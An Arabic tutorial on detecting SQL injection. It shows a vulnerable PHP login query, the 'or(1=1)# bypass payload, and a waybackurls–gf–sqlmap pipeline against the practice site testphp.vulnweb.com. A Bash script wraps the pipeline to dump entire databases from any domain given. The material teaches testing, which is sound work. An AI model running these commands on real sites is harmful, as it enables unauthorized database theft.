









SQLi طريقة اكتشاف ثغرة
السلام عليكم ,
شرح طريقة اكتشاف ثغرة SQLi باستخدام مجموعة ادوات [waybackurls - gf - sqlmap] :
ما هي لغة SQL ؟
لغة SQL اختصار الى Structured Query Language وهي لغة برمجية قياسية لإدارة قواعد البيانات، وتستخدم للاستعلام عن البيانات وإدراجها وتحديثها وتعديلها.
ما هي ثغرة SQL Injection ؟
تحدث ثغرة SQLi عندما لايتم تصفية مدخلات المستخدم للرموز الخاصة التي يتم ادراجها داخل جملة الاستعلام select او Insert ... والتي يمكن ان تؤدي الى التلاعب بهذه الجملة المدخلة لقاعدة البيانات

تكون الثغرة عندما يتم ارسال مدخلات خبيثة للسيرفر من اجل التلاعب بجملة الاستعلام Select :
سيتم التلاعب بجملة الاستعلام select وتخطي التحقق من الباسوورد وادخال قيمة منطقية صحيحة هي 1=1 اي ان الجملة True وفي النهاية وضع تعليق # لاغلاق جملة الاستعلام وتخطي التحقق من الباسوورد لاي مستخدم.
#Collect Form Data After Submitting : $username = $_POST["username"]; $password = $_POST["password"]; #Vulnerable Code : $sql = " select * from users where username='$username' and password='$password' "; #Exploit : Login Form Username : admin Password : 'or(1=1)# $sql = " select * from users where username='admin' and password=''or(1=1)#' ";
تطبيق عملي على موقع حقيقي vulnweb.com :
اولا : شرح الادوات :
1. تقوم اداة waybackurls بجمع كل العناوين URLs الخاصة بالموقع مع كل المجالات الفرعية 2. تقوم اداة sort -u بفلترة العناوين المكررة 3. تقوم اداة tee -a باخراج النتائج في ملف 4. امر pipe (|) لإعادة توجيه المخرجات والنتائج من برنامج إلى آخر 5. تقوم اداة gf sqli بفلترة العناوين مع الباراميتر التي تقبل المدخلات مثل [https://target.com?id=1] 6. تقوم اداة sqlmap باختبار الباراميتر اذا كان مصاب , وتقوم ايظا بأتمتت الاستغلال وسحب قاعدة البيانات او التعديل عليها او حذفها نهائيا 7. عند استخدام امر sqlmap --dump-all سيتم سحب محتويات قاعدة البيانات كاملة 8. عند استخدام امر sqlmap --dbs سيتم استغلال الثغرة وعرض اسماء قواعد البيانات المستخدمة في الموقع 9. عند استخدام امر sqlmap --batch ستقوم الاداة باستخدام الاعدادات الافتراضية حتى تنتهي من استغلال الثغرة
تنزيل الادوات باتباع الخطوات التالية بالترتيب :
sudo apt install golang-go go get github.com/tomnomnom/waybackurls go get -u github.com/tomnomnom/gf cd ~/ git clone https://github.com/1ndianl33t/Gf-Patterns mkdir .gf mv ~/Gf-Patterns/*.json ~/.gf rm -rf ~/Gf-Patterns/ sudo apt install sqlmap
لتستطيع تشغيل الادوات من الترمنال مباشرة قم بنقل الاداوت الى المسار التالي :
cd ~/go/bin/ sudo cp waybackurls gf /usr/bin
في الشرح السابق حول اداة EyeWitness قمنا باستخراج كل المجالات الفرعية لموقع vulnweb.com الخاص بالتدرب على اكتشاف الثغرات,
الان سنقوم بفحص المجال الفرعي http://testphp.vulnweb.com لاكتشاف ثغرة SQLi :

1. استخدام اداة waybackurls مع اسم الموقع لاستخراج كل العناوين والباراميترات التابعة للمجال الفرعي
2. بعد ذالك تمرير الروابط او العناوين الى اداة gf sqli لفلترة العناوين مع الباراميتر التي تقبل المدخلات
3. بعد ذالك تمرير كل العناوين الى اداة sqlmap لاكتشاف الثغرة وسحب قاعدة البيانات بالكامل
waybackurls http://testphp.vulnweb.com | sort -u >> waybackdata.txt cat waybackdata.txt | gf sqli | tee -a sqli.txt sqlmap -m sqli.txt --dbs --batch OR sqlmap -m sqli.txt --dump-all --batch


لاحظ بعد اكتشاف الثغرة في احد الباراميترات , قامت الاداة بسحب قاعدة البيانات وكل محتوياتها من جداول وحقول وحفظ كل النتائج في مجلد



سنقوم ببرمجة سكربت بلغة Bash لأتمتة كل الاوامر السابقة في امر واحد :
Bash Script : script.sh ======================== #!/bin/bash waybackurls $1 | sort -u >> waybackdata.txt cat waybackdata.txt | gf sqli | tee -a sqli.txt sqlmap -m sqli.txt --dump-all --batch =========================
نقوم باعطاء السكربت صلاحيات التنفيذ :
sudo chmod +x script.sh
تنفيذ السكربت مع عنوان المجال الفرعي :
Example : ./script.sh target.com ./script.sh testphp.vulnweb.com


المراجع :
https://portswigger.net/web-security/sql-injection https://owasp.org/www-community/attacks/SQL_Injection https://github.com/s0wr0b1ndef/PayloadsAllTheThings/tree/master/SQL%20injection https://www.w3schools.com/php/func_mysqli_real_escape_string.asp